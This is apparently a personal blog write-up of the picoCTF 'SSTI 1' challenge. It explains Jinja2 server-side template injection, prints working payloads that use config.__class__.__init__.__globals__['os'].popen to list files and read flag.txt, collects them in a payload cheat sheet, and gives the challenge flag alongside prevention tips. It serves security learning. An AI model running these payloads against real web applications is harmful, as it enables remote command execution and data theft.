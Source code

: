 ```yaml
---
title: "SSTI 1 – picoCTF Walkthrough"
date: 2025-04-02 00:30:00 +0800
categories: [CTF, Web Exploitation]
tags: [SSTI, web, Jinja2, template injection, CTF]
permalink: /SSTI-1/
---
```


# Challenge: Server-Side Template Injection (SSTI) 

> **Description:**  
> I made a cool website where you can announce whatever you want! Try it out!  
> I heard templating is a cool and modular way to build web apps!

> **Hint:**  
> Server Side Template Injection

---

## What is SSTI?
**Sever-Side Template Injection (SSTI)** is a vulnerability where **user input is directly rendered in a server-side template**, allowing attackers to inject and execute code on the server.

If the template engine doesn’t sanitize user input, things like this become dangerous: `Hello {{name}}`

If name is user-controlled, the attacker could inject: `{{ 7*7 }}`
Which renders:`Hello 49`

Now imagine instead of math, the attacker injects Python code to run commans or read files.

## What the Site Looked Like
The site was simple with a text box beside the question
    "What do you want to announce?"

Whatever you typed was reflected on the page. Classic reflection = test for SSTI

### Step 1: Testing the Template Engine
I started small by typing: `{{ 7*7 }}`

The site returned `49`

This meant that it was vulnerable to SSTI, and likely using the **jinja2** template engine (used by Flask and many Python apps)

### Step 2: Escalating with Object Traversal
To gain deeper access, I use this payload:
`{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}`

#### What does this do?
- **config**: A Flask object in Jinja2's environment.
-  `.__class__.__init__.__global__`: Gives access to Python's global variable from the class constructor
- ['os']: Pulls in the OS module
- `.popen('ls').read()`: Run a shell command and returns the output

In short: this **breaks out of the sandbox** and let you run system commands.

### Step 3: Viewing the Files
The output of the above command showed:
```
app.py
templates/
flag requirements.txt
```
flag requirement.txt is almost always what we need in a CTF

### Step 4: Reading the Flag
To the read the flag, the following was ran
`{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}`

The following flag was printed:
`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}`

## What I learned
- SSTI can be **powerful and dangerous** - from math to full remote code execution.
- Knowing the internals of Jinja2 (or any engine) is helpful in crafting payloads.
- Object traversal like `config.__class__.__init__.__globals__` is a key way to **break out of templates**.

### Other Templates Engines to Watch Out For
| Engine      | Language | Syntax Example | Known for SSTI? |
|-------------|----------|----------------|------------------|
| Jinja2      | Python   | `{{ ... }}`     | Yes            |
| Twig        | PHP      | `{{ ... }}`     | Yes            |
| Smarty      | PHP      | `{$...}`        | Yes            |
| Velocity    | Java     | `$variable`     | Yes            |
| Freemarker  | Java     | `${...}`        | Yes            |
| EJS         | Node.js  | `<%= ... %>`    | Yes            |
| Razor       | .NET     | `@{...}`        | Yes (rare)     |

Always test different expressions like {{7*7}}, ${7*7}, <%= 7*7 %> to see what sticks.

### How to Prevent SSTI
Developers: Here's how to stay safe:
- Don’t use render_template_string() with raw user input.
- Always sanitize or escape user input in templates.
- Use whitelisted template variables.
- Avoid evaluating user-controlled strings in your rendering logic.
- Use template engine settings to restrict dangerous features.

### Payload Cheat Sheet
| Purpose        | Payload                                                                 |
|----------------|-------------------------------------------------------------------------|
| Confirm SSTI   | `{{7*7}}`                                                               |
| Access config  | `{{ config }}`                                                          |
| List files     | `{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}`  |
| Read flag.txt  | `{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}` |

## Summary
This was a classic **SSTI challenge** — starting with a simple reflected input, moving to evaluating math, then escalating to reading the server’s filesystem. Understanding Python’s object model and Jinja2 internals gave me full control.
